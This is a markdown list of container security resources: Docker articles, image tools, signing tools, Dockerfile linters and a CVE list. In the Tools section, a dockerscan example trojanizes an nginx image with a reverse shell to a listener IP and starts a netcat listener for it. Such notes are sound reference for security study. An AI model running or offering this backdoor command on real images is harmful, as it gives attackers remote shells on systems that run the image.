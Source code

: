 # Articles
* [Worst best practices on Docker](https://pythonspeed.com/articles/security-updates-in-docker/) and why you should update base images
* [Singularity](https://sylabs.io/guides/3.0/user-guide/quick_start.html) quick start / Single file based container
* [Understanding container escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

# Tools
* [dockerscan](https://github.com/cr0hn/dockerscan) weaponize container images
```bash
docker save nginx:latest -o nginx-original
dockerscan image info nginx-original
dockerscan image analyze nginx-original
dockerscan image modify trojanize nginx-original -l 10.244.100.147 -p 2222 -o nginx-trojan
docker load -i nginx-trojan
# on remote
nc -v -k -l 10.244.100.147 2222
# run 
docker run ngimx:latest
# honk :)
```
* [syft](https://github.com/anchore/syft) generate software bill of materials of containers
* [build kit](https://hub.docker.com/r/docker/dockerfile/) cheat sheet
* [buildah](https://github.com/containers/buildah/tree/master/docs/tutorials)
* [dumb-init](https://github.com/Yelp/dumb-init) - Process supervisor that runs with PID 1 and spawns other process inside the container. Handles signals. 
* [distroless](https://github.com/GoogleContainerTools/distroless)
* [google-base-image](https://github.com/GoogleContainerTools/base-images-docker) how google build images with reproducible builds
* [container-diff](https://github.com/GoogleContainerTools/container-diff)
* [dive](https://github.com/wagoodman/dive)
* [skopeo](https://github.com/containers/skopeo)

# Content Trust
* [Google's Cosign](https://github.com/sigstore/cosign)
* [Distroless + Cosign](https://security.googleblog.com/2021/05/making-internet-more-secure-one-signed.html)
* [Notary](https://docs.docker.com/notary/getting_started/)

## Dockerfile and CIS Benchmark
* [Hadolint](https://github.com/hadolint/hadolint) - tests Dockerfile
* [Dockle](https://github.com/goodwithtech/dockle) - tests images
* [Seccomp lab](https://github.com/docker/labs/blob/master/security/seccomp/README.md)
* [Apparmor lab](https://github.com/docker/labs/blob/master/security/apparmor/README.md)


## CVE
* [CVE List](https://www.container-security.site/general_information/container_cve_list.html)
